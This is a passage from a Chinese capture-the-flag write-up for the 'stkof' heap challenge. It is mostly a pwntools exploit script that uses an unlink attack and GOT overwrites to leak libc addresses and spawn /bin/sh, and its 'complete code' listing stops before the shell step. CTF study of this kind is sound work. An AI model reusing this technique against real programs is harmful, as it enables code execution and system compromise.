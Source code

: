 获得offset

5.通过offset算出system地址,手动读入/bin/sh即可

```python
system_addr = libc.symbols['system']+offset
log.success("System_addr:"+hex(system_addr))
edit(3,len(p64(system_addr)),p64(system_addr))
s.sendline("/bin/sh\x00")
s.interactive()
```



## 完整代码

```python
from pwn import *

s = process("./stkof")
libc = ELF("./libc.so.6")
elf = ELF("./stkof")

def alloc(size):
    s.sendline("1")
    s.sendline(str(size))
    s.recvuntil("OK\n")
    log.success("Have Malloc A Heap With:"+hex(size))

def free(idx):
    s.sendline("3")
    s.sendline(str(idx))
    # s.recvuntil("OK\n")
    log.success("Have Free Heap:"+str(idx))

def edit(idx,size,payload):
    s.sendline("2")
    s.sendline(str(idx))
    s.sendline(str(size))
    s.send(payload)
    s.recvuntil("OK\n")
    log.success("Have Edit Heap:"+str(idx))

head = 0x0602140
# gdb.attach(s,"break *0x400D29")
alloc(0x100) # idx 1
alloc(0x30) # idx 2
alloc(0x80) # idx 3
fd = head+16-0x18
bk = head+16-0x10
payload1 = p64(0)+p64(0x30)+p64(fd)+p64(bk)
payload1 = payload1.ljust(0x30,'A')
payload1 += p64(0x30) + p64(0x90)
edit(2, len(payload1), payload1)
free(3)
# print payload1
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']

payload = 'a'*16 + p64(free_got) + p64(puts_got) + p64(atoi_got)
edit(2,len(payload),payload)
edit(1,len(p64(puts_plt)),p64(puts_plt))
free(2)
s.recvline()
```